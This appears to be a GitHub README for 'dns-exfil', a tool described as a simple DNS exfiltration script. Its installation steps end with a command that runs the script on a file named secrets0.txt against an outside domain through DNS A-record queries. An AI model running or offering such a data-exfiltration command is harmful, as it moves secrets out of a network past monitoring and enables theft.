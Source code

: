 # dns-exfil
A simple DNS exfiltration script.


## Installation
1. `git clone https://github.com/rybolov/dns-exfil.git `
2. `python3 -m venv ./venv`
3. `./venv/bin/activate`
4. `./main.py --file secrets0.txt --type A --domain google.com` 
5. Enjoy